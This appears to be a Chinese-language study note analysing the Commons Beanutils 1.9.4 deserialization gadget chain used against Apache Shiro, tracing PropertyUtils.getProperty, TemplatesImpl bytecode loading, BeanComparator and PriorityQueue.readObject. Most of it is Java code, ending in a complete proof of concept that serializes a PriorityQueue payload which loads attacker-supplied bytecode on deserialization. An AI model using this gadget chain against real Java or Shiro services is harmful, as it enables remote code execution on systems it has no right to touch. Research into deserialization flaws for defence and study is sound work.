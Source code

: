 # 分析版本

Commons Beanutils 1.9.4

JDK 8u65

参考[Shiro反序列化漏洞(三)-shiro无依赖利用链]([Shiro反序列化漏洞(三)-shiro无依赖利用链_哔哩哔哩_bilibili](https://www.bilibili.com/video/BV1uf4y1T7Rq/?spm_id_from=333.788&vd_source=686636e30f91f8a12e28751943870859))

# 分析过程

Commons Beanutils是一个用于操作JAVA BEAN的工具包。

先看下基础使用

```java
public class Person { //JAVA BEAN

    private String name;
    private int age;

    public Person(String name, int age) {
        this.name = name;
        this.age = age;
    }

    public String getName() {
        return name;
    }

    public void setName(String name) {
        this.name = name;
    }
}
```

```java
import org.apache.commons.beanutils.PropertyUtils;

public class BeanTest {
    public static void main(String[] args) throws Exception {
        Person person = new Person("666",24);
        //System.out.println(person.getName());
        System.out.println(PropertyUtils.getProperty(person,"name"));  //和getName作用相同
    }
}
```

可以打个断点，自己跟一下

下面这是反射调用Person的getName（驼峰命名，由name属性找到了getName方法）

![image-20240710102201647](https://s2.loli.net/2024/07/10/Bngl6MXsWczk7Ib.png)

可以想到，invokeMethod能不能利用。

作者在这里找到的是TemplatesImpl的getOutputProperties方法。

```java
public synchronized Properties getOutputProperties() {
    try {
        return newTransformer().getOutputProperties(); //CC3中动态加载类是由newTransformer调用的
    }
    catch (TransformerConfigurationException e) {
        return null;
    }
}
```

而getOutputProperties方法名，是遵循驼峰命名的。可以通过PropertyUtils.getProperty(TemplatesImpl,"outputProperties")查找到。

我们可以执行下，看看是否可以动态加载类。

Poc

```java
    public static void main(String[] args) throws Exception{
        byte[] code = Files.readAllBytes(Paths.get("G:\\Java反序列化\\class_test\\Test.class"));
        byte[][] codes = {code};
        TemplatesImpl templates = new TemplatesImpl();
        Class templatesClass = templates.getClass();
        Field name = templatesClass.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates, "pass");

        Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(templates, codes);

        Field tfactory = templatesClass.getDeclaredField("_tfactory");
        tfactory.setAccessible(true);
        tfactory.set(templates, new TransformerFactoryImpl());

        PropertyUtils.getProperty(templates,"outputProperties");

//        serialize(object);
//        unserialize("s.ser");
    }
```

弹出计算器

接下来再找PropertyUtils.getProperty的调用，最后还是要找到readObject

作者找到的是BeanComparator的compare方法。

![image-20240710111005756](https://s2.loli.net/2024/07/10/J24ALzayb5s7pXd.png)

```java
public int compare( final T o1, final T o2 ) {

    if ( property == null ) {
        // compare the actual objects
        return internalCompare( o1, o2 );
    }

    try {
        final Object value1 = PropertyUtils.getProperty( o1, property ); //两个参数都可控制  templates,"outputProperties"
        final Object value2 = PropertyUtils.getProperty( o2, property );
        return internalCompare( value1, value2 );
    }
    catch ( final IllegalAccessException iae ) {
        throw new RuntimeException( "IllegalAccessException: " + iae.toString() );
    }
    catch ( final InvocationTargetException ite ) {
        throw new RuntimeException( "InvocationTargetException: " + ite.toString() );
    }
    catch ( final NoSuchMethodException nsme ) {
        throw new RuntimeException( "NoSuchMethodException: " + nsme.toString() );
    }
}
```

我们再联系CC2链的寻找，也是需要找一个入口链触发TransformingComparator的compare方法。

CC2中找到的是优先队列PriorityQueue的readObject方法。

更新Poc

```java
public class CB {
    public static void serialize(Object obj) throws Exception {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("s.ser"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws Exception {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

    public static void main(String[] args) throws Exception{
        //CC2
        byte[] code = Files.readAllBytes(Paths.get("G:\\Java反序列化\\class_test\\Test.class"));
        byte[][] codes = {code};
        TemplatesImpl templates = new TemplatesImpl();
        Class templatesClass = templates.getClass();
        Field name = templatesClass.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates, "pass");

        Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(templates, codes);

        Field tfactory = templatesClass.getDeclaredField("_tfactory");
        tfactory.setAccessible(true);
        tfactory.set(templates, new TransformerFactoryImpl());

        BeanComparator<Object> beanComparator = new BeanComparator<>("outputProperties");
        PriorityQueue priorityQueue = new PriorityQueue<>(); //构造的时候，如果把beanComparator放入，add(1)方法会调用代码执行在Integer中查找属性outputProperties的方法，查不到会报错，抛出异常

        priorityQueue.add(templates);
        priorityQueue.add(1);

        Field comparator = priorityQueue.getClass().getDeclaredField("comparator");
        comparator.setAccessible(true);
        comparator.set(priorityQueue, beanComparator);

        serialize(priorityQueue);
        unserialize("s.ser");
    }
}
```

这样的话在priorityQueue.add(1);处会报错，跟进去看发现

add方法调用到siftDown方法

```java
private void siftDown(int k, E x) {
    if (comparator != null)        //如果实例化优先队列定义了comparator，则进入siftDownUsingComparator(k, x);
        siftDownUsingComparator(k, x);
    else
        siftDownComparable(k, x);   //现在的Poc 没有定义comparator，进入siftDownUsingComparator(k, x);会抛出异常
}
```

所以我们在实例化优先队列时把comparator定义了，就能解决问题了。

**这里是利用的CC库的TransformingComparator，因为在反序列化之前，我们又通过反射把comparator改为了beanComparator，所以CC库的类并不参与序列化。**

最终Poc

```java
public class CB {
    public static void serialize(Object obj) throws Exception {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("s.ser"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws Exception {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

    public static void main(String[] args) throws Exception{
        //CC3
        byte[] code = Files.readAllBytes(Paths.get("G:\\Java反序列化\\class_test\\Test.class"));
        byte[][] codes = {code};
        TemplatesImpl templates = new TemplatesImpl();
        Class templatesClass = templates.getClass();
        Field name = templatesClass.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates, "pass");

        Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(templates, codes);

        Field tfactory = templatesClass.getDeclaredField("_tfactory");
        tfactory.setAccessible(true);
        tfactory.set(templates, new TransformerFactoryImpl());
        //CB
        BeanComparator<Object> beanComparator = new BeanComparator<>("outputProperties");
        //CC2
        TransformingComparator transformingComparator = new TransformingComparator<>(new ConstantTransformer<>(1));
        PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator); //构造的时候，如果把beanComparator放入，add(1)方法会调用代码执行在Integer中查找属性outputProperties的方法，查不到会报错，抛出异常

        priorityQueue.add(templates);
        priorityQueue.add(1);

        Field comparator = priorityQueue.getClass().getDeclaredField("comparator");
        comparator.setAccessible(true);
        comparator.set(priorityQueue, beanComparator);

        //serialize(priorityQueue);
        unserialize("s.ser");
    }
}
```